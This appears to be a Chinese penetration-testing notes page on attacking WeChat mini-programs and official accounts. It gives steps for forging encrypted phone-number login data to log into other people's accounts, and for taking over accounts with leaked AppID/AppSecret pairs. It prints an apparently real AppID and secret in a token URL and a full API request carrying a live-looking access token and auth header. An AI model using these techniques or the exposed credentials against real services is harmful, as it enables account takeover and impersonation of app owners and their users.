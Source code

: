 小程序使用了云服务，有可能在小程序反编译中看到云服务的账号密码，如云OSS的accessskey等。
也可以反编译看小程序有没有越权访问，接口信息泄露。

小程序反编译hook辅助工具：<https://github.com/eeeeeeeeee-code/e0e1-wx>

## **登录接口场景漏洞**
1、小程序登录逻辑：<https://blog.csdn.net/yyz_1987/article/details/138837370>

^
2、加密base64伪造
传参有：sessionKey的base64+iv的base64(每次会变)+用户信息的加密(每次会变)。可以使用工具解密，替换用户手机号再加密，替换。实现登录他人账号。
案例：<https://github.com/mrknow001/BurpAppletPentester/tree/main>
工具：<https://github.com/wwxiaoqi/WeChatLoginDecrypt>
里边有使用的场景及案例。

如：在手机号一键快捷登录的请求包存在
![image-20240625092851353](http://cdn.33129999.xyz/mk_img/image-20240625092851353.png)
拦截，解密修改已有手机号再加密，替换encryredDate字段，再提交发包即可登录他人手机号，小程序里可看。


^
## **小程序登录获取token，再拿token去请求网站接口**
或者小程序里抓包修改url为网站里的url。
最好用手机小程序登录，保证所有页面访问到（电脑可能有的按钮点不动访问不了接口）。

<https://developers.weixin.qq.com/community/minihome/doc/0004a84fcb0bb0e89eddbaa5156401>


^
## **微信小程序AppID和AppSecret泄露接管**
泄露AppID和AppSecret，可以使用工具生成access_token，从而接管小程序。


获取access_token参数，然后通过添加认证参数才可以调用官方接口。
首先获取access_token，通过拼接泄露的appid和secret获取
``` 
https://api.weixin.qq.com/cgi-bin/token?grant_type=client_credential&appid=appid&secret=appsecret
```
通过access_token调用官方接口。
<https://mp.weixin.qq.com/debug>

接管小程序，在下放平台直接通过access_token调用查询小程序配置接口。
<https://developers.weixin.qq.com/apiExplorer>
![image-20240826012304904](http://cdn.33129999.xyz/mk_img/image-20240826012304904.png)



^
## **公众号AppID和AppSecret泄露接管**

获取access_token参数，然后通过添加认证参数才可以调用官方接口。
首先获取access_token，通过拼接泄露的appid和secret获取。防御：设置ip白名单
``` 
wxa6d106695affb672
635a58cb1e0825b10cc2d254424e8ad
https://api.weixin.qq.com/cgi-bin/token?grant_type=client_credential&appid=wxa6d106695affb672&secret=635a58cb1e0825b10cc2d254424e8ad
```
通过access_token调用官方接口。个人公众号和未认证公众号大部分接口无法调用
<https://mp.weixin.qq.com/debug>
<https://static.kancloud.cn/lengyueguang/linux/978990>
<https://mp.weixin.qq.com/advanced/advanced?action=table&token=208373046&lang=zh_CN>

通过appid查微信公众号名称，避免是测试号。
<https://developers.weixin.qq.com/community/develop/doc/0006c2fbb5002096618a51a355c000>
<https://kainy.cn/api/mpAppidQuery/?appid=wxc379f01fb36c6b0e>

^
没有菜单可以加一个菜单证明
```

POST /cgi-bin/menu/create?access_token=83_TlKkA9-Ymj7IZ3hE1rCoFv2Ql6p1zXQehe_DPDf8S4uPH77qyYt3bBevNMc2B4ZZb5yvY0YZJONswlLQyHQHhBp7fZzaN0bNVOYT073BFsf8ZjlLAdCRUD52S5AVYNiAGAADS HTTP/1.1
Host: api.weixin.qq.com
sec-ch-ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Authorization: Basic c2FiZXI6c2FiZXJfc2VjcmV0
Accept-Encoding: gzip, deflate, br, zstd
Role-Id:
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
Captcha-Code: 76842
Dept-Id:
Tenant-Id: 000000
Captcha-Key: 4503c657-cca3-443a-ae20-6134599ff93f
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json
Content-Length: 7

{
    "button": [
        {
            "type": "click", 
            "name": "1", 
            "key": "1001_TODAY_MUSIC"
        }
    ]
}
```